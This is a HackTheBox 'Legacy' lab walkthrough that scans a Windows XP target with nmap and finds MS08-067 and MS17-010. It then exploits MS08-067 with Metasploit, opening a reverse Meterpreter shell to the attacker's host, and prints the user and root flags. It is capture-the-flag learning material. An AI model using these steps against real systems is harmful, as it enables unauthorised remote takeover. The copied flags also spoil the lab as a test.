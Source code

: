 ```yaml
---
title: HackTheBox - Legacy
date: 2020-08-29 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [legacy]
image: /assets/img/Icons/legacy.png
---
```


<p align="center">
  <img width="200" height="200" src="legacy.png">
</p>

<center> <h1>HackTheBox - Legacy Walkthrough</h1> </center>

*A nice and easy first box - Windows XP, exploiting SMB vulnerabilities to gain SYSTEM access.*

***Machine IP = 10.10.10.4***

---

## RECON AND INFORMATION GATHERING
### Nmap


<pre>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:04 BST
Nmap scan report for 10.10.10.4
Host is up (0.055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h31m22s, deviation: 2h07m16s, median: 4d23h01m22s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:47:5e (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-24T16:05:41+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.16 seconds
</pre>

An old machine, running Windows XP 2000. SMB is discovered on port 139. Time to delve deeper. Scan for SMB vulnerabilities on port 139.

<pre>
root@kali:~# nmap --script smb-vuln* -p 139 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 12:23 BST
Nmap scan report for 10.10.10.4
Host is up (0.052s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
</pre>

Two CVE's returned:
- CVE-2008-4250 - smb-vuln-ms08-067
- CVE-2017-0143 - smb-vuln-ms17-010

Now onto Metasploit to gain access to machine.

---

## Exploiting
### Metasploit

<pre>

msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.4:1031) at 2020-07-19 12:31:48 +0100

meterpreter > 
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
</pre>

It seems we have access to the machine! Time to find some flags.

<pre>
C:\Documents and Settings\john\Desktop>type user.txt
e69af0e4f443de7e36876fda4ec7644f

C:\Documents and Settings\Administrator\Desktop>type root.txt	
993442d258b0e0ec917cae9e695d5713
</pre>

First machine completed! Although there is another option to exloit via ms17-010, the results would be the same. Was a nice easy machine to say the least. Onto the next!